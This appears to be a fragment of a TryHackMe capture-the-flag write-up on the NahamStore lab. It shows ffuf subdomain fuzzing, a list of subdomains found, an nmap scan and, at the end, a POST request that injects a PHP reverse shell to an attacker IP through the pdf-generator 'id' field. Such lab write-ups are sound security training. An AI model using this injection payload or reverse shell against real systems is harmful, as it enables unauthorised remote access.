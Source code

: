 * https://securitytrails.com/blog/dnsrecon-tool


<br>


* FFUF:

* REMEMBER to use the ".thm" domain.  If you use the ".com" TLD this will not work as we are trying to find subdomains for the IP address we got from THM.

* The scan did not return anything new

```
ffuf -u "http://10.10.164.42" -H "Host: FUZZ.nahamstore.thm" -w "/usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt" -fw 125
```

<br>


* List of all subdomains we have so far:

```
10.10.164.42	nahamstore.thm bvht73kj.nahamstore.thm awzq0w02.nahamstore.thm 12345678.nahamstore.thm stock.nahamstore.thm marketing.nahamstore.thm shop.nahamstore.thm www.nahamstore.thm nahamstore-2020.nahamstore.thm
```


* The following sub-domains either redirected to http://nahamstore.thm or returned the default message from nahamstore.com:

```
bvht73kj.nahamstore.thm awzq0w02.nahamstore.thm 12345678.nahamstore.thm shop.nahamstore.thm www.nahamstore.thm
```

<br><br><br>


##### NMAP Scan

* The nmap scan disclosed 3 ports open: 22, 80, 8000

```
nmap -sC -sV -O 10.10.164.42
```



<br><br><br>


#### Recon


* Use an RCE vulnerability to disclose another subdomain called - nahamstore-2020-dev.nahamstore.thm

* Look into the /etc/hosts file

```
POST /pdf-generator HTTP/1.1
Host: nahamstore.thm

what=order&id=4$(php+-r+'$sock%3dfsockopen("10.6.44.219",4444)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b')
```

